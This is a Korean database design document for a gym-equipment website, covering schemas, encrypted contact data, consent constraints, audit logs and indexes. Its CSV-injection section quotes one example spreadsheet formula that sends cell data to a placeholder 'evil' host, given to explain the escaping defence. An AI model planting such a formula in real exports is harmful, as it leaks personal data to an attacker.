


# DB 구조

실제 스키마: [`src/main/resources/db/migration/V1__init.sql`](https://github.com/gymleco/BE/blob/main/src/main/resources/db/migration/V1__init.sql) (BE)

스키마의 소유자는 **Flyway** 입니다. Hibernate 는 `ddl-auto: validate` 로만 동작합니다.
`update` 로 두면 운영 DB 가 코드 변경에 따라 조용히 바뀝니다.

---

## ERD

---

## 테이블 명세

`NN` = NOT NULL · `UK` = UNIQUE · `FK` = 외래키

### `product` — 제품

| 컬럼 | 타입 | 제약 | 설명 |
|---|---|---|---|
| `id` | `BIGINT` | PK, identity | |
| `slug` | `VARCHAR(120)` | NN, UK | URL 에 노출. 소문자·숫자·하이픈만 (CHECK) |
| `name_ko` / `name_en` | `VARCHAR(120)` | NN | |
| `category` | `VARCHAR(20)` | NN, CHECK | `STRENGTH` `CABLE` `RACK` `BENCH` `CARDIO` |
| `summary` | `VARCHAR(200)` | NN | 쇼케이스 한 줄 특징 |
| `description` | `TEXT` | NN | **살균된 HTML 만** |
| `footprint_m2` | `NUMERIC(6,2)` | NN, `> 0` | ★ 핵심 소구점 |
| `width_mm` `depth_mm` `height_mm` | `INTEGER` | NN, `> 0` | |
| `weight_kg` | `NUMERIC(7,2)` | NN, `> 0` | |
| `thumbnail_key` | `VARCHAR(255)` | | 오브젝트 스토리지 키 |
| `sort_order` | `INTEGER` | NN, 기본 0 | 관리자가 지정 |
| `visible` | `BOOLEAN` | NN, **기본 FALSE** | 미완성 제품이 실수로 공개되지 않게 |
| `created_at` `updated_at` | `TIMESTAMPTZ` | NN | |

### `product_image` — 갤러리

| 컬럼 | 타입 | 제약 | 설명 |
|---|---|---|---|
| `id` | `BIGINT` | PK | |
| `product_id` | `BIGINT` | NN, FK → `product` | `ON DELETE CASCADE` |
| `image_key` | `VARCHAR(255)` | NN | |
| `alt_text` | `VARCHAR(200)` | NN | 접근성. 비워도 되지만 컬럼은 강제 |
| `sort_order` | `INTEGER` | NN | |

### `news` — 소식

| 컬럼 | 타입 | 제약 | 설명 |
|---|---|---|---|
| `id` | `BIGINT` | PK | |
| `slug` | `VARCHAR(140)` | NN, UK | |
| `title` | `VARCHAR(200)` | NN | |
| `body` | `TEXT` | NN | **살균된 HTML 만** |
| `thumbnail_key` | `VARCHAR(255)` | | |
| `published_at` | `TIMESTAMPTZ` | | 예약 발행 가능 |
| `visible` | `BOOLEAN` | NN, 기본 FALSE | |

> CHECK `NOT visible OR published_at IS NOT NULL`
> 발행일 없이 공개 상태가 될 수 없습니다.

### `inquiry` — 문의 ★ 개인정보

| 컬럼 | 타입 | 제약 | 설명 |
|---|---|---|---|
| `id` | `BIGINT` | PK | |
| `type` | `VARCHAR(20)` | NN, CHECK | `QUOTE` `DEMO` `OFFICIAL` `ETC` |
| `name` | `VARCHAR(80)` | NN | **개인정보.** 목록에서는 마스킹 |
| `phone_encrypted` | `TEXT` | NN | **AES-256-GCM (base64).** 평문 금지 |
| `phone_blind_index` | `BYTEA` | | **HMAC-SHA256.** 검색 전용 |
| `email` | `VARCHAR(160)` | | 개인정보 |
| `company` | `VARCHAR(120)` | | |
| `region` | `VARCHAR(60)` | | |
| `message` | `TEXT` | NN | |
| `status` | `VARCHAR(20)` | NN, CHECK | `NEW` `CONTACTING` `DONE` `SPAM` |
| `memo` | `TEXT` | NN | 관리자 메모. 열람 청구 대상이 될 수 있음 |
| `consent_at` | `TIMESTAMPTZ` | **NN** | ★ 없으면 저장 자체가 불가 |
| `marketing_consent_at` | `TIMESTAMPTZ` | | 선택. 필수 동의와 분리 |
| `purge_at` | `TIMESTAMPTZ` | NN, `> consent_at` | ★ 자동 파기 기준 |
| `source_ip` | `INET` | | 스팸 분석용. 파기 대상에 포함 |
| `user_agent` | `VARCHAR(400)` | | |

> `consent_at` 을 NOT NULL 로 둔 것이 핵심입니다.
> 코드에 실수가 있어도 **동의 없는 개인정보가 DB 에 들어갈 수 없습니다.**

### `inquiry_product` — 문의 ↔ 제품

| 컬럼 | 타입 | 제약 |
|---|---|---|
| `inquiry_id` | `BIGINT` | PK, FK → `inquiry` CASCADE |
| `product_id` | `BIGINT` | PK, FK → `product` CASCADE |

### `admin_user` — 관리자

| 컬럼 | 타입 | 제약 | 설명 |
|---|---|---|---|
| `id` | `BIGINT` | PK | |
| `username` | `VARCHAR(60)` | NN, UK | |
| `password_hash` | `VARCHAR(100)` | NN, **CHECK `^\$2[aby]\$`** | ★ BCrypt 만 |
| `display_name` | `VARCHAR(60)` | NN | |
| `role` | `VARCHAR(20)` | NN, CHECK | `ADMIN` `EDITOR` |
| `enabled` | `BOOLEAN` | NN | |
| `totp_secret_encrypted` | `TEXT` | | 2FA 시크릿도 암호화 |
| `totp_enabled` | `BOOLEAN` | NN | |
| `last_login_at` `last_login_ip` | `TIMESTAMPTZ` `INET` | | 새 IP 로그인 알림용 |
| `password_changed_at` | `TIMESTAMPTZ` | NN | |

> CHECK 제약으로 **MD5·SHA·평문이 DB 레벨에서 거부됩니다.**
> 실제 PostgreSQL 17 에 적용해 거부되는 것을 확인했습니다.

### `admin_refresh_token` — 세션

| 컬럼 | 타입 | 제약 | 설명 |
|---|---|---|---|
| `id` | `BIGINT` | PK | |
| `admin_user_id` | `BIGINT` | NN, FK CASCADE | |
| `token_hash` | `BYTEA` | NN, UK | **토큰 원본이 아님.** DB 유출로 세션 탈취 불가 |
| `issued_at` `expires_at` | `TIMESTAMPTZ` | NN | |
| `revoked_at` | `TIMESTAMPTZ` | | 로그아웃 시 기록 |
| `replaced_by` | `BIGINT` | FK (self) | **재사용 감지.** 회전 추적 |
| `user_agent` `ip` | `VARCHAR(400)` `INET` | | |

### `login_attempt` — 로그인 시도

| 컬럼 | 타입 | 제약 |
|---|---|---|
| `id` | `BIGINT` | PK |
| `username` | `VARCHAR(60)` | NN |
| `ip` | `INET` | NN |
| `successful` | `BOOLEAN` | NN |
| `attempted_at` | `TIMESTAMPTZ` | NN |

> **IP 기준을 1차 방어로 씁니다.** 계정 전면 잠금만 두면 공격자가
> 아무 비밀번호나 반복해 대표님을 상시 차단할 수 있습니다(가용성 DoS).

### `admin_audit_log` — 감사 로그

| 컬럼 | 타입 | 제약 | 설명 |
|---|---|---|---|
| `id` | `BIGINT` | PK | |
| `admin_user_id` | `BIGINT` | FK `SET NULL` | 계정이 지워져도 로그는 남는다 |
| `admin_username` | `VARCHAR(60)` | NN | 이름을 문자열로도 박아둠 |
| `action` | `VARCHAR(60)` | NN | `INQUIRY_VIEW` `INQUIRY_EXPORT_CSV` 등 |
| `target_type` `target_id` | `VARCHAR(40)` `VARCHAR(60)` | | |
| `detail` | `TEXT` | NN | ★ 비밀번호·토큰·전화번호 평문 금지 |
| `ip` `user_agent` | `INET` `VARCHAR(400)` | | |

> 보관 기간 **최소 3개월.** 개인정보 조회와 CSV 내보내기도 기록합니다.

### `site_setting` — 설정

| 컬럼 | 타입 | 제약 |
|---|---|---|
| `key` | `VARCHAR(80)` | PK |
| `value` | `TEXT` | NN |

주요 키: `contact.*` `company.*` `sns.*` `home.hero_product_slugs`
`home.banner_text` `privacy.retention_notice`

> 공개 API 는 이 테이블을 통째로 반환하지 않습니다.
> **공개해도 되는 키만 화이트리스트로** 내보냅니다.

### `used_item` — 중고 매물

카탈로그가 아니라 **개별 물건**입니다. 같은 파워 랙이라도 2019년식과
2022년식은 다른 매물이고, 하나가 팔려도 다른 하나는 남습니다.

| 컬럼 | 타입 | 제약 | 설명 |
|---|---|---|---|
| `id` | `BIGINT` | PK | |
| `slug` | `VARCHAR(140)` | NN, UK | |
| `product_id` | `BIGINT` | FK `SET NULL` | 카탈로그 연결. 단종 모델이면 NULL |
| `name_ko` | `VARCHAR(140)` | NN | |
| `model_name` | `VARCHAR(140)` | NN | 제품이 지워져도 무엇이었는지 남긴다 |
| `condition_grade` | `VARCHAR(10)` | NN, CHECK | `A` 상급 / `B` 중급 / `C` 하급 |
| `year_made` | `SMALLINT` | 1980~2100 | 정확한 날짜를 모르는 경우가 많아 연도만 |
| `price_krw` | `INTEGER` | `> 0` | **NULL 이면 "가격 문의"** |
| `status` | `VARCHAR(20)` | NN, CHECK | `AVAILABLE` `RESERVED` `SOLD` |
| `quantity` | `SMALLINT` | NN, `>= 0` | 같은 상태 물건이 여러 대일 수 있다 |

> 판매완료 매물도 목록에서 지우지 않고 뒤로 보냅니다.
> 팔린 것이 보여야 "물건이 도는 곳"으로 읽힙니다.

### `official_center` — 짐레코 공식 헬스장

| 컬럼 | 타입 | 제약 | 설명 |
|---|---|---|---|
| `id` | `BIGINT` | PK | |
| `slug` | `VARCHAR(140)` | NN, UK | |
| `name` `region` | `VARCHAR` | NN | |
| `address` | `VARCHAR(255)` | NN | |
| `latitude` `longitude` | `NUMERIC(9,6)` | 함께 있거나 함께 없어야 함 | 지도 표시용 |
| `phone` `website_url` `instagram_url` | `VARCHAR` | NN, 기본 `''` | |
| `area_pyeong` | `SMALLINT` | `> 0` | |
| `consent_at` | `TIMESTAMPTZ` | **공개하려면 필수** | ★ 게재 동의 |
| `visible` | `BOOLEAN` | NN, 기본 FALSE | |

> **CHECK `NOT visible OR consent_at IS NOT NULL`**
>
> 소규모 센터의 상호·주소·연락처는 개인정보에 해당할 수 있습니다.
> 동의 없이 공개 상태가 되는 경로를 DB 가 막습니다.

---

## 마이그레이션 이력

| 파일 | 내용 |
|---|---|
| `V1__init.sql` | 제품·소식·문의·관리자·감사 로그 기본 스키마 |
| `V2__seed_site_setting.sql` | 사이트 설정 키 시드 |
| `V3__product_type_used_center.sql` | 품목 종류(`type`) · 중고 · 공식 헬스장 · 문의 유형 확장 |

**적용된 마이그레이션은 수정하지 않습니다.** 고치면 적용한 환경과
적용하지 않은 환경의 스키마가 갈라집니다. 변경은 항상 새 `V{n}` 으로 추가합니다.

CI 가 PR 마다 빈 PostgreSQL 17 에 전부 순차 적용하고, 보안상 중요한 제약이
실제로 거부하는지까지 확인합니다.

---

## 개인정보를 담는 테이블은 하나뿐

`inquiry` 만 이름·전화·이메일을 갖습니다. 의도적으로 한 곳에 모았습니다 —
분산돼 있으면 파기·접근제어·감사를 모든 곳에 적용해야 하고, 반드시 하나를 빠뜨립니다.

### 전화번호를 다루는 방식

**왜 결정적 암호화를 쓰지 않는가**
같은 평문이 항상 같은 암호문이 되면, 복호화 없이도 "이 번호가 몇 번 나왔는지"
같은 빈도 분석이 가능합니다. 랜덤 IV + 별도 블라인드 인덱스가 정석입니다.

**두 키는 반드시 다른 값**이어야 합니다. 같으면 인덱스에서 암호화 키가 노출됩니다.

### CSV 내보내기가 실제 유출 통로다

컬럼 암호화를 아무리 잘해도, 관리 화면의 CSV 내보내기는 **전부 복호화해서
평문 파일로 뽑아냅니다.** 그래서:

- 내보내기 시 `admin_audit_log` 에 반드시 기록
- 셀 값에 CSV 인젝션 방어 적용 (아래)
- 권한을 `ADMIN` 으로 제한 (`EDITOR` 는 불가)

### CSV 인젝션

`=`, `+`, `-`, `@`, 탭, 캐리지리턴으로 시작하는 셀은 Excel 에서 **수식으로 실행**됩니다.
문의 메시지에 `=HYPERLINK("http://evil/"&A1,"클릭")` 을 넣으면 대표님이 파일을 여는 순간
데이터가 빠져나갑니다.

방어: 해당 문자로 시작하는 값 앞에 작은따옴표를 붙이고, 큰따옴표로 감싸며,
내부 큰따옴표는 두 번 반복합니다. 개행·탭도 제거합니다.

---

## 자동 파기

`purge_at > consent_at` 를 CHECK 제약으로 걸어 두었습니다.
계산 실수로 즉시 파기 대상이 되는 데이터가 만들어지지 않습니다.

---

## 인덱스 설계 근거

| 인덱스 | 대상 쿼리 |
|---|---|
| `ix_product_visible_sort` (부분) | 공개 제품 목록. `WHERE visible` 로 좁혀 인덱스 크기를 줄임 |
| `ix_news_published` (부분) | 공개 소식 최신순 |
| `ix_inquiry_status_created` | 관리 화면 기본 목록 (상태별 최신순) |
| `ix_inquiry_phone_blind` | 전화번호 검색 |
| `ix_inquiry_purge` | 파기 배치 일일 스캔 |
| `ix_inquiry_product_product` | "어떤 제품 문의가 많은가" (§1.2 2차 KPI) |
| `ix_login_attempt_ip` | IP 기준 로그인 시도 제한 |

---

## 트랜잭션 방침

| 항목 | 설정 | 이유 |
|---|---|---|
| `open-in-view` | **false** | 기본값 true 면 뷰 렌더링까지 커넥션을 붙들어 풀이 요청 수만큼 묶인다. 지연 로딩 실수도 가려진다 |
| 조회 메서드 | `@Transactional(readOnly = true)` | 플러시를 생략하고 더티체킹 스냅샷을 만들지 않는다 |
| 배치 | `jdbc.batch_size: 50`, `order_inserts` | 갤러리 이미지 여러 장 저장 시 왕복 횟수를 줄인다 |
| 외부 호출 | `@TransactionalEventListener(AFTER_COMMIT)` | ISR 재검증·메일 발송을 커밋 이후로. 트랜잭션 안에서 부르면 롤백된 데이터로 사이트가 갱신된다 |
| 페이징 + 컬렉션 | `fail_on_pagination_over_collection_fetch: true` | 조인 페치 + 페이징을 메모리에서 처리하는 조용한 성능 함정을 예외로 드러낸다 |
